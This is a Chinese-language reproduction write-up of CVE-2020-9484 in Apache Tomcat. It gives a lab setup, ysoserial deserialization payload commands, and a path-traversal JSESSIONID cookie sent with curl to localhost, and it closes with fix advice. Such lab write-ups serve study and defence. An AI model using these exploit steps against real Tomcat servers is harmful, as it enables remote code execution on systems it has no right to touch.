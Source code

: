 # CVE-2020-9484:Apache Tomcat代码问题漏洞
## 一、漏洞介绍
北京时间2020年05月20日，Apache官方发布了 Apache Tomcat 远程代码执行 的风险通告，该漏洞编号为 CVE-2020-9484。

Apache Tomcat 是一个开放源代码、运行servlet和JSP Web应用软件的基于Java的Web应用软件容器。当Tomcat使用了自带session同步功能时，使用不安全的配置（没有使用EncryptInterceptor）会存在反序列化漏洞，攻击者通过精心构造的数据包， 可以对使用了自带session同步功能的Tomcat服务器进行攻击。

这次是由于错误配置和 org.apache.catalina.session.FileStore 的 LFI 和反序列化漏洞引起的 RCE。

当配置了 org.apache.catalina.session.PersistentManager 并且使用 org.apache.catalina.session.FileStore 来储存 session 时, 用户可以通过 <strong><font color='red'>org.apache.catalina.session.FileStore 的一个 LFI 漏洞来读取服务器上任意以 .session结尾的文件。然后通过反序列化来运行 .session 文件。</font></strong>


默认情况是使用 org.apache.catalina.session.StandardManager, 将 session储存到内存，而 PersistentManager 会将不常用的 session swap out, 从而减少内存占用。

参考：https://www.safedog.cn/news.html?id=4456

## 二、影响版本

Apache Tomcat: 10.0.0-M1 to 10.0.0-M4

Apache Tomcat: 9.0.0.M1 to 9.0.34

Apache Tomcat: 8.5.0 to 8.5.54

Apache Tomcat: 7.0.0 to 7.0.103

## 三、先决条件

1. PersistentManager 使用了FileStore
2. 攻击者能够上传带有任意内容的文件，可以控制文件名并知道上传文件的位置
3. 类路径中有一些小工具可用于Java反序列化攻击，如groovy-2.3.9（创建文件）、CommonsCollections2（弹出计算器）

## 四、漏洞复现

需要环境：虚拟机、kali系统

安装tomcat需要java环境，实验时请自行安装

#### 下载安装tomcat，安装在/usr/local/tomcat

```bash
cd /usr/local
mkdir tomcat
wget https://repo1.maven.org/maven2/org/apache/tomcat/tomcat/10.0.0-M4/tomcat-10.0.0-M4.tar.gz
tar -zxvf tomcat-10.0.0-M4.tar.gz
```
#### 修改配置文件

注：若配置文件中无此配置，则说明不存在此漏洞
```bash
cd apache-tomcat-10.0.0-M4/conf
vim context.xml
```
添加下列配置
```bash
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore" directory="/tomcat/sessions/"/>
</Manager>
```
![1](./images/1.png)

#### 下载反序列化相关工具

##### 1. groovy

`wget https://repo1.maven.org/maven2/org/codehaus/groovy/groovy/2.3.9/groovy-2.3.9.jar`

将groovy-2.3.9.jar 放入/usr/local/tomcat/lib目录下（ysoserial使用Groovy1命令需要的插件）

![2](./images/2.png)

##### 2. ysoserial

`git clone https://github.com/frohoff/ysoserial.git`

#### 启动tomcat

```bash
cd ~/apache-tomcat-10.0.0-M4/bin
./catalina.sh start
```
![3](./images/4.png)

#### 攻击过程

##### 1. 生成payload

`java -jar ysoserial.jar Groovy1 "touch /tmp/2333" > /tmp/test.session`

![4](./images/3.png)

##### 2. 使用test.session

（1）在浏览器抓取首页的包添加`Cookie: JSESSIONID={ ../../../../../tmp/test }`
{}中为test.session路径

目标是在服务器上执行命令`touch /tmp/2333`，<font color='red'>假设 .session文件已经被上传到服务器的已知位置。</font>

 （2）linux命令行

`curl 'http://127.0.0.1:8080/index.jsp' -H 'Cookie: JSESSIONID=../../../../../tmp/test'`

![5](./images/5.png)

此处网上复现皆为127.0.0.1，原因是<font color='red'>这里主要是 FileStore 的 LFI 漏洞可以反序列化任意路径上的 .session 文件, 如果同时存在 文件上传漏洞的话就是 RCE 了</font>

#### CommonsCollections2

CommonsCollections2不用下载

`java -jar ysoserial.jar CommonsCollections2  "{ /Applications/Calculator.app/Contents/MacOS/Calculator }" > /tmp/test2.session`

![6](./images/6.png)

## 五、修复建议

修复方式就是升级,或者配置WAF，过滤掉../之类的字符串，或者不使用 FileStore

## 六、参考文章

1. https://www.freebuf.com/articles/web/242782.html
2. https://www.safedog.cn/news.html?id=4456
3. https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/
4. https://y4er.com/posts/cve-2020-9484-tomcat-session-rce/#%E9%85%8D%E7%BD%AEtomcat%E8%B0%83%E8%AF%95%E7%8E%AF%E5%A2%83
5. https://github.com/masahiro331/CVE-2020-9484   docker环境
